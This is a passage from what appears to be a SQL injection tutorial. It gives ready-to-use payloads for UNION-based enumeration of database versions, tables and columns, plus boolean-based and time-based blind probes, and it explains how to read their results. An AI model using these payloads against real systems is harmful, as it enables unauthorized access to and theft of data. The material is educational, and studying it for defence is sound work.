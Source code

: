 This combines results from the original query with data from the admin_users table.

---

## Advanced SQL Injection Techniques

### Information Gathering

**Database Version:**
```sql
' UNION SELECT version(), database() --
```

**List Tables:**
```sql
' UNION SELECT table_name, null FROM information_schema.tables --
```

**List Columns:**
```sql
' UNION SELECT column_name, data_type FROM information_schema.columns WHERE table_name = 'users' --
```

### Boolean-Based Blind Injection

When you can't see query results directly, but can determine if a query is true or false:

```sql
' AND (SELECT COUNT(*) FROM users) > 10 --
```

If the page loads normally → more than 10 users exist
If the page errors → 10 or fewer users exist

### Time-Based Blind Injection

Force the database to wait, indicating successful injection:

```sql
' AND (SELECT SLEEP(5)) --
```

If the page takes 5 seconds to load → injection successful

---

## Real-World Impact

### What Attackers Can Do

1. **Steal sensitive data** - passwords, credit cards, personal information
2. **Bypass authentication** - access admin panels
3. **Modify data** - change prices, delete records
4. **Execute system commands** - in some cases, gain server access

### Famous SQL Injection Attacks

